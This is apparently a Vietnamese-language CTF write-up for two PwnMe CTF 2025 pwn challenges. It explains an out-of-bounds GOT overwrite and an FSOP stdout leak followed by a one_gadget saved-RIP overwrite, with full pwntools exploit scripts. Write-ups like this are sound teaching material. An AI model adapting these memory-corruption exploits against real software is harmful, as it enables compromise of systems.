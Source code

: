 ```yaml
--- 
title: PwnMe CTF Quals 2025
date: 2025-02-16 00:00:00 +0800
categories: [writeup]
tags: [pwn,writeup]
author: "kuvee"
layout: post
---
```


# got

checksec: 

```cs
ploi@PhuocLoiiiii:~/pwn/PwnMeCTF/got/got$ checksec got
[*] '/home/ploi/pwn/PwnMeCTF/got/got/got'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- main : chương trình rất đơn giản , đầu tiên ta sẽ được nhập 1 idx , tiếp sau đó là nhập dữ liệu vào ```PNJS[idx]```  và nó nằm tại ```0x0000000000404080``` 

```cs
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int idx; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  idx = 0;
  puts("Hey ! I've never seen Game of Thrones and i think i misspelled a name, can you help me ?");
  puts("Which name is misspelled ?\n1. John\n2. Daenarys\n3. Bran\n4. Arya");
  fwrite("> ", 1uLL, 2uLL, stdout);
  __isoc99_scanf("%d", &idx);
  if ( idx > 4 )
  {
    puts("Huuuhhh, i do not know that many people yet...");
    _exit(0);
  }
  puts("Oh really ? What's the correct spelling ?");
  fwrite("> ", 1uLL, 2uLL, stdout);
  read(0, &PNJs[idx], 0x20uLL);
  puts("Thanks for the help, next time i'll give you a shell, i already prepared it :)");
  return 0;
}
```

- rõ ràng đây là 1 bài xảy ra bug ```oob``` , ta có thể ghi idx tiến đến got và ghi vào thứ gì đó để lấy shell và may mắn là có 1 hàm win

```cs
void __cdecl shell()
{
  system("/bin/sh");
}
```

exp: 

```cs
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./got',checksec=False)

#p = process()
p = remote('got-4d27ff88d1920941.deploy.phreaks.fr',443,ssl=True)

p.sendline(b'-4')
input()
p.send(p64(0x401036) + p64(exe.sym.shell))

p.interactive()
```

# einstein

checksec: full giáp

```cs
ploi@PhuocLoiiiii:~/pwn/PwnMeCTF/einstein/einstein$ checksec einstein
[*] '/home/ploi/pwn/PwnMeCTF/einstein/einstein/einstein'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

- handle: đây là hàm chứa dữ liệu chính cần khai thác của bài , đập vào mắt đầu tiên có lẽ là ta có 2 lệnh scanf -> ta có thể ghi tùy ý 2 lần 


```cs
int __cdecl handle()
{
  int offset; // [rsp+8h] [rbp-38h] BYREF
  unsigned int size; // [rsp+Ch] [rbp-34h] BYREF
  unsigned __int64 *wher; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 wat; // [rsp+18h] [rbp-28h] BYREF
  unsigned __int64 *wher2; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 wat2; // [rsp+28h] [rbp-18h] BYREF
  void *allocated; // [rsp+30h] [rbp-10h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  puts("\nHow long is your story ?");
  __isoc99_scanf("%u", &size);
  if ( size <= 0x27 )
  {
    puts("Well... It seems you don't really want to talk to me that much, cya.");
    _exit(1337);
  }
  allocated = malloc(size);
  puts("What's the distortion of time and space ?");
  __isoc99_scanf("%u", &offset);
  puts(
    "Well your story is quite long, time may be distored, but it is a priceless ressource, i'll give you a few words only"
    ", use them wisely.");
  read(0, (char *)allocated + offset, 0x22uLL);
  puts("Everything is relative... Or is it ???");
  __isoc99_scanf("%llu %llu", &wher, &wat);
  __isoc99_scanf("%llu %llu", &wher2, &wat2);
  *wher = wat;
  *wher2 = wat2;
  return 0;
}
```

- và bài này hốc búa ở chỗ là ta không biết bất cứ địa chỉ nào -> sẽ không thể ghi được gì , tuy nhiên để ý lại đoạn ở trên , ta được nhập 1 size và malloc(size) 
- tiếp theo ta được input vào 0x22 vào chunk đó , ở đây ta cần biết khi ta nhập 1 size lớn -> nó sẽ dùng mmap để tạo 1 vùng nhớ cho yêu cầu của malloc() , và vùng nhớ đó nằm dưới ngay libc

- ở đây mình nhập 1 size rất lớn

![here](/assets/images/PWNme2025/1.png)

- và nó nằm ngay dưới libc

![here](/assets/images/PWNme2025/2.png)

- như ta đã nói thì trước hết ta cần biết địa chỉ libc , ở đây ta cần tấn công ```fsop``` , chi tiết thì ta có thể xem ở [here](https://github.com/nobodyisnobody/docs/tree/main/using.stdout.as.a.read.primitive/)  , ở đây mình chọn overwrite ```IO_write_PTR``` bằng byte ```\xff```  hoặc là ta có thể overwrite như link trên cũng được , và may mắn là ta có libc lẫn stack_address  
- lúc đầu mình không leak được stack_address vì phiên bản libc bài cho không giống sever , sau khi build docker và lấy libc lại thì mới leak được stack :)))

- cuối cũng đơn giản là overwrite ```saved_rip``` thành one_gadget thôi , ta có 2 lần ghi nên ta có thể làm cho nó thõa mãn điều kiện của one_gadget

- ở đây mình chọn cái này : 

rax NULL sẵn và ta chỉ cần setup cho ```rbp-0x78``` thôi là được

```cs
0xeb66b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
```

exp: 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./einstein_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()

p.sendlineafter(b'How long is your story ?\n', str(0x50000).encode())


p.sendlineafter(b"What's the distortion of time and space ?\n", str(0x253790+0x28).encode())


input()
p.sendafter(b'.\n', b'\xff')

p.recv(5)
libc_leak = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f'libc leak: {hex(libc_leak)}')
p.recv(0x92)
leak_stack = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f'leak_stack: {hex(leak_stack)}')
saved_rip = leak_stack - 0x120
log.info(f'saved_rip: {hex(saved_rip)}')
libc.address = libc_leak - 0x2008f0
log.info(f'libc: {hex(libc.address)}')
rbp = saved_rip + 8
og = [0xeb66b,0xeb60e,0x54f53,0x54f4c]

p.sendlineafter(b'Everything is relative... Or is it ???',str(int(saved_rip)) + ' ' + str(int(libc.address+og[0])))
input()
p.sendline(str(int(rbp-0x78)) + ' ' + str(int(0)))

p.interactive()
```